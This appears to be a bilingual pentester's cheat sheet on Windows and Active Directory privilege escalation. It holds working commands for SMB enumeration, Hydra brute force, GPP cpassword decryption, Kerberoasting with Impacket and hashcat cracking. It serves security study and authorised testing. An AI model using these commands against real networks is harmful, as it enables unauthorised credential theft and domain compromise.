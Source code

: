 # Windows

- [Tenets](#tenets)
  - [Privileges](#privileges)
  - [Windows Privilege Escalation Vectors](#windows-privilege-escalation-vectors)
  - [Initial Information Gathering](#initial-information-gathering)
- [PowerShell](#powershell)
- [Enumération](#enumération)
- [Mots de passe](#mots-de-passe)
  - [Mot de passe dans SYSVOL](#mot-de-passe-dans-sysvol)
  - [Kerberoast](#kerberoast)
- [Partage](#partage)
- [Liens utiles](#liens-utiles)

---

> *In case of doubt, reboot*, Rowan Atkinson

## Tenets

### Privileges

On a typical Windows server, you may find several different account types :
- **Domain Administrators** : This is typically the highest account level you will find in an enterprise along with Enterprise Administrators. An account with this level of privilege can manage all accounts of the organization, their access levels, and almost anything you can think of.
- **Services** : Accounts used by software to perform their tasks such as back-ups or antivirus scans.
- **Domain users** : Accounts typically used by employees. These should have just enough privileges to do their daily jobs. For example, a system administrator may restrict a user's ability to install and uninstall software.
- **Local accounts** : These accounts are only valid on the local system and can not be used over the domain.

### Windows Privilege Escalation Vectors

A few common vectors that could allow any user to increase their privilege levels on a Windows system :
- **Stored Credentials** : Important credentials can be saved in files by the user or in the configuration file of an application installed on the target system.
- **Windows Kernel Exploit** : The Windows operating system installed on the target system can have a known vulnerability that can be exploited to increase privilege levels.
- **Insecure File/Folder Permissions** : In some situations, even a low privileged user can have read or write privileges over files and folders that can contain sensitive information.
- **Insecure Service Permissions** : Similar to permissions over sensitive files and folders, low privileged users may have rights over services. These can be somewhat harmless such as querying the service status (SERVICE_QUERY_STATUS) or more interesting rights such as starting and stopping a service (SERVICE_START and SERVICE_STOP, respectively).
- **DLL Hijacking** : Applications use DLL files to support their execution. You can think of these as smaller applications that can be launched by the main application. Sometimes DLLs that are deleted or not present on the system are called by the application. This error doesn't always result in a failure of the application, and the application can still run. Finding a DLL the application is looking for in a location we can write to can help us create a malicious DLL file that will be run by the application. In such a case, the malicious DLL will run with the main application's privilege level. If the application has a higher privilege level than our current user, this could allow us to launch a shell with a higher privilege level.
- **Unquoted Service Path** : If the executable path of a service contains a space and is not enclosed within quotes, a hacker could introduce their own malicious executables to run instead of the intended executable.
- **Always Install Elevated** : Windows applications can be installed using Windows Installer (also known as MSI packages) files. These files make the installation process easy and straightforward. Windows systems can be configured with the "AlwaysInstallElevated" policy. This allows the installation process to run with administrator privileges without requiring the user to have these privileges. This feature allows users to install software that may need higher privileges without having this privilege level. If "AlwaysInstallElevated" is configured, a malicious executable packaged as an MSI file could be run to obtain a higher privilege level.
- **Other software** : Software, applications, or scripts installed on the target machine may also provide privilege escalation vectors.

### Initial Information Gathering

A few key points in enumeration :
- **Users** on the target system : The `net users` command will list users on the target system.
- **OS version** : The `systeminfo | findstr /B /C: "OS Name"/C: "OS Version"` command will output information about the operating system. This should be used to do further research on whether a privilege escalation vulnerability exists for this version.
- **Installed services** : the `wmic service list` command will list services installed on the target system.

## PowerShell

```powershell
# afficher en arborescence
tree /f

# lien symbolique
new-item -itemtype symboliclink -path . -name settings.json -value "C:\Users\Kamil\OneDrive\Windows Terminal\settings.json"
```

## Enumération

Pour obtenir des informations sur un domaine :
```bash
# null session
enum4linux -a 192.168.10.1 > enum1.txt
# énumérer les utilisateurs avec un RID cycling sur un intervalle plus grand
enum4linux -U -R 500-2000 192.168.10.1 | grep -v unknown > enum2.txt
# avec des credentials
enum4linux -u test -p test -a 192.168.10.1 > enum_as_test.txt
```

## Mots de passe

Pour se connecter en local et pas sur le domaine : `.\username`

Bruteforce sur le réseau (pas du tout discret) :
```bash
hydra -L usernames.txt -P rockyou.txt 192.168.10.1 smb
```

### Mot de passe dans SYSVOL

Pour déchiffrer le cpassword d'un compte défini dans une GPO sur un partage :
- utiliser la recette [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)AES_Decrypt(%7B'option':'Hex','string':'4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b'%7D,%7B'option':'Hex','string':'00000000000000000000000000000000'%7D,'CBC','Raw','Raw',%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D))
- ou [gpp-decrypt](https://github.com/t0thkr1s/gpp-decrypt) si besoin offline

Clé AES256 donnée par [Microsoft](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be) :
```bash
# AES256 cipher key
4e 99 06 e8 fc b6 6c c9 fa f4 93 10 62 0f fe e8 f4 96 e8 06 cc 05 79 90 20 9b 09 a4 33 b6 6c 1b
# Initialisation Vector
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
```

Source : https://adsecurity.org/?p=2288

### Kerberoast

Avec [Impacket](https://github.com/SecureAuthCorp/impacket) :
```bash
python3 ./GetUserSPNs.py -request -dc-ip 192.168.10.1 MIDGAR.LAN/scarlet:password -outputfile kerberoast.hash
```

Pour casser ces hash :
```bash
hashcat -m 13100 -a 0 kerberoast.hash rockyou.txt -o output.txt
```

## Partage

Pour récupérer tous les fichiers d'un partage, et les étudier en local :
```powershell
smb: \> recurse
smb: \> prompt
smb: \> mget *
```

## Liens utiles

https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet

https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/

https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html

Pentesting Active Directory mindmap :
- https://www.xmind.net/m/5dypm8/
- https://i.ibb.co/TKYNCNP/Pentest-ad.png
